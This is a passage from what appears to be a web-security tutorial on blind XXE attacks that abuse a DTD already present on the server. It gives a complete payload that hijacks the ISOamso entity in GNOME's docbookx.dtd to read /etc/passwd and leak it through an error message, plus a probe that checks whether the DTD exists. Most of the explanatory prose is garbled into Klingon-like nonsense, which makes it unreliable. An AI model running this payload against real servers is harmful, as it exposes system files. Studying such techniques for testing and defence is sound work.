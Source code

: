 
**Real world example:** Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
![](<../.gitbook/assets/image (224).png>)

**Qapla'!** Qagh technique vItlhutlh **internal DTD** vaj **valid DTD** laH. **'ej** vaj **OS / Software** **'ej** **server** **install** **search** **default DTDs**, **grab** **list** **default DTDs** **systems** **'ej** **check** **exist**.
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
### ghItlhutlh

[https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind) qarDaq yIlo'laHbe'.

### tIq DTDs cha'logh
